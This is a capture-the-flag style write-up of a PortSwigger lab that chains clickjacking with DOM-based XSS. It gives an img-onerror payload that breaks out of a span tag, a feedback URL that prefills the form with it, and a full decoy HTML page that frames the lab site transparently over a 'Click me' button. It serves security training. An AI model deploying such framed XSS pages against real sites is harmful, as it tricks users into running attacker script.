 
# Exploiting clickjacking vulnerability to trigger DOM-based XSS

This lab contains an XSS vulnerability that is triggered by a click. Construct a clickjacking attack that fools the user into clicking the "Click me" button to call the print() function.

Note: The victim will be using Chrome so test your exploit on that browser.


---------------------------------------------

References: 

- https://portswigger.net/web-security/clickjacking



![img](images/Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/1.png)

---------------------------------------------

There is a function to submit feedback:



![img](images/Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/2.png)


It reflects the content of the name field:



![img](images/Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/3.png)


It is inside a span tag:



![img](images/Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/4.png)


We can exploit the XSS using the payload:

```
</span><img src=x onerror=alert(1)><span>
```



![img](images/Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/5.png)


The fields can be populated using GET parameters:

```
/feedback?name=</span><img src=x onerror=alert(1)><span>&email=a@a.com&subject=a&message=a
```



![img](images/Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/6.png)


So we can execute the attack with a payload like this:

```
<head>
	<style>
		#target_website {
			position:relative;
			width:600px;
			height:600px;
			opacity:0.1;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:600px;
			height:600px;
			z-index:1;
			}
		#btn {
			position:absolute;
			top:440px;
			left:70px;
		}
	</style>
</head>
<body>
	<div id="decoy_website">
	<button id="btn">Click me</button>
	</div>
	<iframe id="target_website" src="https://0a9500e703977b7c812c80ce00300073.web-security-academy.net/feedback?name=%3C/span%3E%3Cimg%20src=x%20onerror=print()%3E%3Cspan%3E&email=a@a.com&subject=a&message=a">
	</iframe>
</body>
```



![img](images/Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/7.png)